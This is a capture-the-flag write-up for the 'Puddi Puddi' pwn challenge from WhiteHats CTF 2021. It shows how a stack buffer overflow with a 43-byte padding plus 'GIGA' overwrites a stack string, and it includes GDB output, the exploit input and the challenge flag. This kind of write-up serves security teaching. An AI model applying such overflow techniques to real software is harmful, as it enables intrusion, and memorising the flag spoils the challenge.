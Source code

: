 ```yaml
---
layout: writeup
ctf: WhiteHats CTF 2021
chal: Puddi Puddi
flag: WH2021{3880fba0faf0_g1g4_pudd1}
points: 981
solves: 12
category: pwn
---
```


> Why have a MEGA 🍮 when you can have a GIGA 🍮?

Files given:
 - [puddi](puddi)

## Challenge

We see that it moves the string `MEGA` to `rbp-0x5` and then after receiving a user input, checks if `rbp-0x5` is GIGA. This is simply asking for buffer overflow!

Instead of staring at the binary, we can overflow it wih pwntools `cyclic(100)` and then use GDB and break at strcmp to check what the value of `rbp-0x5` is, and with this compute the padding needed.

```
strcmp@plt (
   $rdi = 0x00007fffffffe6cb → "alaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaax[...]",
   $rsi = 0x0000555555400da8 → 0x706f4f0041474947 ("GIGA"?),
   $rdx = 0x0000000000000000
)
```

```py
>>> cyclic_find("alaa")
43
```

Hence we simply send in `pattern(43)+"GIGA"` as input to get the flag:

```
Do you like pudding? (Y/N) => aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaGIGA
PUDDI PUDDI!
PUDDI PUDDI!
SUGOKU DEKKAI...

 .d8888b.  8888888  .d8888b.         d8888       8888888b.  888     888 8888888b.  8888888b. 8888888 888
d88P  Y88b   888   d88P  Y88b       d88888       888   Y88b 888     888 888  "Y88b 888  "Y88b  888   888
888    888   888   888    888      d88P888       888    888 888     888 888    888 888    888  888   888
888          888   888            d88P 888       888   d88P 888     888 888    888 888    888  888   888
888  88888   888   888  88888    d88P  888       8888888P"  888     888 888    888 888    888  888   888
888    888   888   888    888   d88P   888       888        888     888 888    888 888    888  888   Y8P
Y88b  d88P   888   Y88b  d88P  d8888888888       888        Y88b. .d88P 888  .d88P 888  .d88P  888    "
 "Y8888P88 8888888  "Y8888P88 d88P     888       888         "Y88888P"  8888888P"  8888888P" 8888888 888


WH2021{3880fba0faf0_g1g4_pudd1}
```
